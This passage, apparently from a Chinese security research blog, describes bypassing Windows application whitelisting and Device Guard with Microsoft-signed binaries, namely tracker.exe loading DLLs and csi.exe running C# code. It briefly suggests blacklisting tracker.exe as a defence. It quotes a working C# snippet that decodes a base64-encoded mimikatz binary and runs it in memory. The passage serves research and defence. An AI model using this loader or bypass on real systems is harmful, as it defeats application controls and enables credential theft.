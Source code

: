 - tracker.exe可以在启动进程的同时加载dll

但是如果只想通过tracker.exe加载dll的话，存在以下问题：

选择不存在或是权限不够的进程，无法加载dll

但是，可以通过一个特殊的进程来解决这个问题，如`svchost.exe`，那么在加载dll后，进程svchost.exe可以自动退出,这就实现了通过tracker.exe加载dll


**防御：**

对tracker.exe添加黑名单规则





## 0x02 use csi to bypass Application Whitelisting
---

**Reference:**

http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html

**简介：**

同样是利用带有微软签名的exe绕过白名单的技巧，Matt Graeber曾介绍过如何利用cdb.exe绕过Windows Device Guard，Casey这次介绍的是使用C#相关的csi.exe绕过Windows Device Guard的技巧，本文将分享这个技巧的研究心得，并完成Casey在博客中留给读者的作业——在win10未安装VS2015的环境下如何使用csi.exe


**csi.exe：**

在Visual Studio 2015 Update 1引入

安装后位置在C:\Program Files (x86)\MSBuild\14.0\Bin


**实际测试：**

测试系统：

Win10 安装Visual Studio 2015

 **1.在csi编译环境中直接执行代码**
 
直接运行csi.exe会进入编译环境，可在里面直接填入代码并运行

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-16/3-1.png)




测试Casey在文章中的代码，从文件中读取base64加密过的mimikatz.exe，解密执行，代码如下：

```
using System;
using System.Reflection;
string s = System.IO.File.ReadAllText(@"c:\\test\\katz.txt");
byte[] b = System.Convert.FromBase64String(s);
Assembly a = Assembly.Load(b);
MethodInfo method = a.EntryPoint;
object o = a.CreateInstance(method.Name);
method.Invoke(o, null);
```
